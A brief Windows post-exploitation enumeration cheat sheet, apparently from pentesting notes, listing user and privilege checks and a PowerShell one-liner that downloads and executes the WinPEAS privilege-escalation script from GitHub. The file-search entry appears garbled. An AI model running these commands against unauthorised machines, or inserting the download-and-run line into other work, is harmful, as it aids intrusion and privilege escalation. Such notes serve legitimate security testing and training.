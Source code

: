 # Windows

## System Enumeration

### List Users

```batch
net user
```

### User Privileges

```batch
whoami /priv
```

### Search Files

> If you dont know the full path of the file or even the extension, you can use: `*<FILE>*`

```batch
cmd /s <FILE>
```

### WinPEAS

> https://github.com/peass-ng/PEASS-ng

```powershell
powershell "IEX(New-Object Net.WebClient).downloadString('https://raw.githubusercontent.com/carlospolop/PEASS-ng/master/winPEAS/winPEASps1/winPEAS.ps1')"
```
